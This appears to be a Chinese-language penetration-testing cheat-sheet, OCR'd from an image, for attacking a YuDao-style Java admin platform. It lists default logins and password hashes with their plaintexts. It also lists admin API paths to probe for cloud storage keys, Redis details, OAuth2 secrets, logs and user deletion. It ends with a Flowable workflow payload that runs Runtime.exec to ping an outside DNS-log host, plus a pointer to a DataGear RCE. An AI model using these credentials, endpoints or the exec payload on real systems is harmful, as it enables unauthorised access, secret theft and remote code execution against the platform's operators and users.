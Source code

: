 默认账户
admin admin123
test test123
hrmgr hr123


```
test123
bv1BUHrzxj5rXjwSBhwqrfoa8RgrUBK8bldbPKY62k6hkKN0zeOcz0Sztlto66M1G/c2Tz7qWWOHBtMQTdHBPQ==

$2a$10$mRMIYLDtRHlf6.9ipiqH1.Z.bh/R9dO9d5iHiGYPigi6r5KOoR2Wm
默认密钥密码admin123

$2a$04$5Kp7boZ/JfnMRNcSxZ3ItOaRM.Mmkdiyk3xKqNMCxCWMWdBwTY97y
admin1234
```

^
java解析js的RCE，java17如果默认不支持解析js。
<https://www.freebuf.com/articles/web/362360.html>
工作流：<https://blog.thatcoder.cn/wiki/YuDaoCloud/%E5%B7%A5%E4%BD%9C%E6%B5%81%E6%89%8B%E5%86%8C/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE.html>

```
用户
/admin-api/system/user/page
/prod-api/admin-api/system/user/page



可能未授权查看
/admin/applications



存储桶，存储位置，aksk
/admin-api/infra/file-config/page
文件列表
/admin-api/infra/file/page?pageNo=1&pageSize=100

数据源,无敏感信息
/admin-api/infra/data-source-config/list
/admin-api/infra/data-source-config/create
/infra/data-source-config
可能前后端分离


redis信息
有redis配置文件位置
/prod-api/admin-api/infra/redis/get-monitor-info


java
/admin-api/infra/config/get-value-by-key?key=url.spring-boot-admi

文档
/v3/api-docs/swagger-config
/v3/api-docs/all



outh2可能有密码
/admin-api/system/oauth2-client/page



初始配置
/admin-api/infra/config/page
字典
/admin-api/system/dict-type/page



日志
/admin-api/infra/api-access-log/page
/admin-api/infra/api-error-log/page

/admin-api/system/operate-log/page
/admin-api/system/login-log/page


操作日志，无用
/admin-api/web-api/system/dict/data/list-all-simple


用户列表(部分)
/admin-api/web-api/selfcom/user/list
/web-api/selfcom/user/list



删用户，最好delete方法
/admin-api/system/user/delete?id=4




工作流
/manager/model/list
/manager/model/edit
java.lang.Runtime.getRuntime().exec("ping hng2al.dnslog.cn");
```



^
## **jdbc**
DataGear全版本RCE


